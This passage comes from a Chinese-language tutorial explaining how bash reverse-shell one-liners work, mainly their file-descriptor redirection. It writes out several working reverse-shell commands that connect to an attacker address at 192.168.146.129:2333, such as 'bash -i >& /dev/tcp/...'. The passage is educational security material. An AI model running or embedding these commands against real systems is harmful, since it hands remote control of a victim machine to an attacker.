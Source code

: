  如下图所示，我在攻击机上输入 ifconfig，查看到的是受害者的ip ，也就是说我们目前已经基本完成了一个反弹shell 的功能。

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cfb2189a-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cfb2189a-9c80-1.png)

  **注意：**
   但是这里有一个问题，就是我们在受害者机器上依然能看到我们在攻击者机器中执行的指令 ，如下图所示，我们马上解决

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cfbf9362-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173608-cfbf9362-9c80-1.png)

  **4. >&、&>**

  这个符号在我附上链接的那篇文章中也提到了，作用就是混合输出（错误、正确输出都输出到一个地方）

  现在我们解决一下前面的问题：

  ```
  bash -i > /dev/tcp/192.168.146.129/2333 0>&1 2>&1
  ```

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173609-cfe54a1c-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173609-cfe54a1c-9c80-1.png)

  可以看到命令并没有回显在受害者机器上，我们的目的达成了

  [![img](https://xzfile.aliyuncs.com/media/upload/picture/20180810173609-cff2d39e-9c80-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180810173609-cff2d39e-9c80-1.png)

  当然我们也可以执行与之完全等价的指令

  ```
  bash -i >& /dev/tcp/192.168.146.129/2333 0>&1
  ```

  **至此，我们的反弹shell的经典语句就分析完了，通过这条语句的分析我们能大致的了解反弹shell的本质，以后碰到其他的反弹shell 的语句也能用类似的分析方法区分析，甚至我们也可以自己举一反三创造更加绝妙的反弹shell 的语句**

  ## **0X04 常见的反弹shell 的语句怎么理解**

  ### **1.方法一**

  ```
  bash -i>& /dev/tcp/192.168.146.129/2333 0>&1
  ```

  和

  ```
  bash -i>& /dev/tcp/192.168.146.129/2333 0<&1
  ```

  这里的唯一区别就是 0>&1 和 0<&1 ，其实就是打开方式的不同，而对于这个文件描述符来讲并没有什么区别（我在上面给出链接的文章中也特地用加粗的形式解释了）

  ### **2.方法二**

  ```
  bash -i >& /dev/tcp/192.168.146.129/2333 <&2
  ```
